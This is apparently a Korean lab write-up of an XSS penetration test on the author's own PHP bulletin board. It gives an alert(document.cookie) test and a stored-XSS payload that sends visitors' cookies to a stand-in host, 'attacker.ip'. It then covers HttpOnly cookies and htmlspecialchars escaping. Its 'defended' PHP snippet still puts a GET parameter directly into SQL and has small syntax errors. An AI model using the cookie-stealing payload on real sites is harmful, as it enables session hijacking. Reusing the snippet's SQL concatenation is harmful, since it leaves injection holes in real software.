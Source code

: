 # XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_board.png)
 ![게시글 보기 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_view.png)
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ## 공격 실습
 ![xss_test](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test.png)
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test2.png)
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ## Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored.png)
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://attacker.ip/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored2.png)
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored3.png)
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.

## 방어 기법
 1. 입력값 검증: 모든 입력값에 대해서 적절한 검증을 통해 유효한 값만을 받아들이고, 악성 스크립트 등을 필터링하여 처리합니다.

 2. HTML 특수 문자 이스케이프: 입력값이 출력되는 곳에서 문자열을 안전한 HTML 형식으로 변환합니다.

## 방어 실습
 ### 쿠키 탈취 방어
 ![php.ini]()
 
 php.ini 파일의 `session.cookie_httponly = true' 설정을 통하여 쿠키의 속성에 HttpOnly 가 설정된다. HttpOnly 속성이 추가된 쿠키는 자바스크립트등과 같은 언어로 쿠키에 접근하는것을 차단하여 쿠키를 탈취하는것을 불가능하게 합니다.
 
 ![editcookie]()
 
 EditThisCookie 툴로 쿠키를 보면 HTTP 전용 란에 체크가 된것을 볼 수 있습니다.
 
 ![httponly_test]()
 
 또한 기존의 XSS_Test 게시글에 접속하여도 쿠키가 뜨지 않는것을 확인할 수 있습니다.
 
 ### HTML 이스케이프
 HTML escaping 이란 HTML에서 사용되는 특수문자를 해당 문자의 HTML 엔티티(entity)로 대체되어 HTML 출력에서 스크립트 실행을 방지하는 것을 말합니다. 대표적으로 다음과같이 치환 됩니다.
 | Escape 전 | Escape 후 |
 |-|-|
 | `&` | `&amp;`|
 | `"` | `&quot;` |
 | `'` |  `&#039;` |
 | `<` | `&lt;` |
 | `>` | `&gt;` |
 
 PHP 에서는 `htmlspecialchars()` 함수를 이용하여 HTML 이스케이핑을 할 수 있습니다. 다음은 해당함수를 이용하여 Escaping 을 적용한 view.php 의 일부 입니다. 
 ```php
<?php
include ("connect.php");

$bid=$_GET["bid"];
$result = $con->query("select * from board where bid=".$bid) or die("query error => ".$mysqli->error);
$rs = $result->fetch_object();
$content = htmlspecialchars($rs->content);
 ... 중략 ...
<p>
 <?php echo $content;>
</p>
...
```

